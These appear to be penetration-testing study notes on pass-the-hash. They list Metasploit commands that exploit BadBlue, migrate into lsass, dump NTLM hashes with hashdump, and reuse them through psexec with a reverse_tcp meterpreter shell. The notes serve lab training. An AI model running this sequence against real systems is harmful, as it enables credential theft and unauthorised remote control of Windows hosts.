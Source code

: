 ### Pass-The-Hash
* An explitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords --> to use those to authenticate
* PsExec module can be used to legitimately authenticate with the target system via SMB.
* There is no exploitation involved but a legitimate access.

* PRACTICAL
* Repeat steps till db_nmap
* `use exploit/windows/http/badblue_passthru` --> To get a meterpreter session
* Migrate to x64 meterpreter
* `pgrep lsass`
* `migrate [ID]`
* `hashdump`
* **Use these hashes**
* `use exploit/windows/smb/psexec`
* `set payload windows/x64/meterpreter/reverse_tcp`
* `set smbuser [username]`
* `set smbpass [paste the hash here from hashdump command]`
* Hash = LM:NTLM
